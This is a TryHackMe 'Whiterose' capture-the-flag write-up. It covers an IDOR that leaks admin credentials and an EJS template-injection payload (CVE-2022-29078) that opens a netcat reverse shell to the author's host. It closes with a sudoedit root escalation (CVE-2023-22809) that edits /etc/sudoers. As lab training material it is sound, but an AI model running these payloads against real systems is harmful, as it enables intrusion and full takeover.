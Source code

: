 ```yaml
---
title: Whiterose
date: 2024-12-05
categories: [TryHackMe, CTF]
tags: [tryhackme, ctf, ssti, idor]     # TAG names should always be lowercase
comments: false
image: /assets/img/tryhackme/ctf/whiterose/banner.png
---
```


> Just like many other challenges, [this one](https://tryhackme.com/r/room/whiterose) is also inspired by Mr.Robot (and based on episode "409 Conflict" for anyone who watched the serie).

## Information Gathering

Before we start this challenge, we are given some credentials (`Olivia Cortez:olivi8`) but we do not know when this will be useful.

As always, we start the challenge with a nmap scan :

![Nmap scan screenshot](/assets/img/tryhackme/ctf/whiterose/1.png)

Two services are open on **SSH port** and **HTTP port**.
Hence, we can take a look at the web application hosted on that machine (after writing the dns entry in `/etc/hosts` to translate the domain name).

This being done, we can see how the website looks like :

![Web application default](/assets/img/tryhackme/ctf/whiterose/2.png)

I tried to enumerate the directories but it resulted in nothing.
Then, using **ffuf**, I enumerated the vhosts and found one named *admin* : 

![fuff](/assets/img/tryhackme/ctf/whiterose/fuff.png)

So I decided to take a look at it (after putting the other entry) :

![Admin login](/assets/img/tryhackme/ctf/whiterose/3.png)

We land on this login page that is asking for a name and a password. Obviously, the first thing we can do is trying the credentials we were given at the beginning of the challenge. This proves to be useful because it gives the access to the admin panel on which are displayed the recent payments, bank accounts (with hidden phone numbers), messages and a *Settings* tab we cannot access with our privileges.

![Admin panel](/assets/img/tryhackme/ctf/whiterose/4.png)

When exploring the different tabs, the *Messages* one displays an admin chat :

![Messages tab](/assets/img/tryhackme/ctf/whiterose/5.png)

At first glance, the chat is banalistic but if we take a look at the URL, we observe a *"c"* parameter that is set to *5* and this is instantly catching the eye.
Let's check if there is an [IDOR](https://portswigger.net/web-security/access-control/idor)...

![Messages tab idor](/assets/img/tryhackme/ctf/whiterose/6.png)

We found the password of a privileged admin account!
Now, if we try to connect with **Gayle Bev's account**, these credentials work and we retrieve Tyrell Wellick's phone number to answer the first question of the challenge.

## Initial Access

It took me quite some time to figure out what to do next in order to get an initial access to the target machine, but then I remembered that with the privileged admin account, we also got the access to the *Settings* tab's content that was previously hidden, so I went to check it.

This tab is used for changing the customer's password. When we enter a customer name (no matter what it is) and a new password, it reflects the chosen password on the page so I wondered if I could use this at my advantage (perhaps with a [SSTI](https://portswigger.net/web-security/server-side-template-injection)...).

![Settings tab](/assets/img/tryhackme/ctf/whiterose/7.png)

I tried a few basic payloads but nothing seemed to be working so I intercepted the POST request using Burp Suite.
So far, this is what a classic request looks like :

![Burp1](/assets/img/tryhackme/ctf/whiterose/8.png)

If we omit to enter a customer name or a password, it alerts *'Please enter a valid name'* or asks for a password. However, if we erase the password field then it creates an *Error* response and we can see that this application uses **Embedded JavaScript (.ejs)** and that it is executed server-side.

![Burp2](/assets/img/tryhackme/ctf/whiterose/9.png)

After searching for some time for an exploit on ejs, I found a [website](https://www.seebug.org/vuldb/ssvid-99549) with a PoC for the vulnerability **CVE-2022-29078** and adapted it to my case.

I entered the payload in the Burp Suite request, started my netcat listener on the correct port. Consequently, I managed to open a shell as the **web** user and find the flag named `user.txt` in the parent directory.

```
&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('busybox nc <MY_IP> <MY_PORT> -e bash');s
```

![Burp3](/assets/img/tryhackme/ctf/whiterose/10.png)
![netcat1](/assets/img/tryhackme/ctf/whiterose/11.png)

> I [upgraded my shell](https://0xffsec.com/handbook/shells/full-tty/) for further convenience in the next steps.

## Privilege Escalation

The first thing that I do after I gained the shell ready is to type `sudo -l` in order to see if the **web** user has any particular privileges for a special command, and there is one :

![sudol](/assets/img/tryhackme/ctf/whiterose/12.png)

We can execute the **sudoedit** command with root privileges, without any password on the website file.

After searching a little, I found that there is a vulnerability for this command (**CVE-2023-22809**) that we can exploit to escalate our privileges to root. This vulnerability allows us to modify files we would not be able to modify without root privileges through the **sudoedit** command.

To exploit it, we first need to set a new environment variable called *EDITOR* (that sudoedit will try to find) so that we open `/etc/sudoers` using **nano**.

```shell
export EDITOR="nano -- /etc/sudoers"
```

![env](/assets/img/tryhackme/ctf/whiterose/13.png)

Then if we type the command we have root privileges on...
```shell
sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```
...it opens the `/etc/sudoers` file and we can modify it to give the **web** user the rights to use every commands with root privileges.

![etcsudoers](/assets/img/tryhackme/ctf/whiterose/14.png)

Once we save the files, we can now elevate our privileges and discover the last flag to finish the challenge!

![rootflag](/assets/img/tryhackme/ctf/whiterose/15.png)